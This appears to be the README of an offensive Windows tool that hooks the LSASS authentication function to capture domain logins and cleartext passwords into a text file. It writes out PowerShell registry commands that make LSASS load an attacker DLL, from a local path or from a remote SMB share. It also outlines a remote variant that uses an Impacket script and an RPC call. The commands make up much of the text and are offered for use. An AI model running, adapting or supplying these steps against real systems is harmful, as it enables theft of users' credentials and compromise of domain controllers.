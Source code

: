# LogonCredentialsSteal

LOCAL AND REMOTE HOOK msv1_0!SpAcceptCredentials from LSASS.exe and DUMP DOMAIN/LOGIN/PASSWORD IN CLEARTEXT to text file.

run powershell v1.0

New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "c:\temp\lsass_lib.dll"
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "\\share\lulz\lsass_lib.dll"

or

To load our DLL, we can use a very simple Impacket Python script to modify the registry and 
add a key to HKLM\SYSTEM\CurrentControlSet\Services\NTDS\DirectoryServiceExtPt pointing to our DLL 
hosted on an open SMB share, and then trigger the loading of the DLL using a call to hSamConnect RPC call. 
look in remote_inject.py


will inject lib and dump any logon credentials to c:\temp\credentials.txt



thanks https://ired.team/ for research
